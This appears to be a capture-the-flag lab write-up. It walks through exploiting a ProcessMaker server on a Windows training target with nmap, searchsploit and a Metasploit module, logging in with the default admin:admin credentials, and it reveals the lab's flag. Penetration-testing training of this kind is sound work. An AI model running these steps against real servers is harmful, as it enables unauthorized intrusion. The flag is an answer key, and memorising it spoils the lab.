




# 🔬Win Workflow Platform - MSF

## Lab 1

>  🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
>  - Target IP: `10.2.27.1`
>  - Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.2.27.1
```

```bash
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Enumeration

- Explore the web application hosted on the web server, before running any vuln scanners

```bash
firefox 10.2.27.1
```



- View the web page source code. In this case no **version information** can be found.
- Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login_Settings#:~:text=If%20ProcessMaker%20was%20just%20installed,Password%3A%20admin)
  - `admin`:`admin`



### Exploitation

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.27.1
setg RHOST 10.2.27.1
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
run
```



```bash
pwd
cd /
dir
cat flag.txt
```


<details>
<summary>Reveal Flag: 🚩</summary>


`a3dcb4d229de6fde0db5686dee47145d`



</details>

------

